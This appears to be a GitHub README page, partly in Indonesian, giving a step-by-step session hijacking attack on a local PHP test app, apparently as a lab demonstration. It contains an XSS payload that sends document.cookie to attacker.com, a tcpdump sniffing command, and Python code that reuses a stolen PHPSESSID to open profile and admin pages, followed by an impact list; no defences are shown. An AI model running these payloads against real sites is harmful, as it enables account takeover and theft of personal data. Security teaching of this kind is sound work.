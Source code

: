 ### 🛠️ **Tools Required**
- Browser Developer Tools
- Python requests
- `session_hijacking_demo.py` script

### 📝 **Step-by-Step Attack**

#### **Step 1: Victim Analysis**
```javascript
// Di browser console (F12)
console.log(document.cookie);
// Output: PHPSESSID=5bdff63200ce6e32c12224e4a19568f9
```

#### **Step 2: Cookie Interception**
```bash
# Method 1: Network interception (if HTTP)
tcpdump -A -s 0 'tcp port 8081 and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf0)>>2)) != 0)'

# Method 2: XSS payload (jika ada XSS)
<script>
fetch('http://attacker.com/steal.php?cookie=' + document.cookie);
</script>
```

#### **Step 3: Session Hijacking**
```python
import requests

# Attacker menggunakan session ID korban
victim_session_id = "5bdff63200ce6e32c12224e4a19568f9"

# Buat session baru dengan session ID korban
hijacker_session = requests.Session()
hijacker_session.cookies.set('PHPSESSID', victim_session_id)

# Akses halaman protected
response = hijacker_session.get('http://localhost:8081/profile.php')

if "profile" in response.text.lower():
    print("🚨 HIJACK SUCCESSFUL!")
```

#### **Step 4: Privilege Escalation**
```python
# Coba akses admin panel
admin_response = hijacker_session.get('http://localhost:8081/admin.php')
if admin_response.status_code == 200:
    print("🔴 ADMIN ACCESS GAINED!")
```

### 📊 **Impact Assessment**
- **Account Takeover**: Complete access to victim's account
- **Data Exposure**: Access to personal information
- **Privilege Escalation**: Possible admin access
- **Persistent Access**: Session remains valid until logout/timeout

---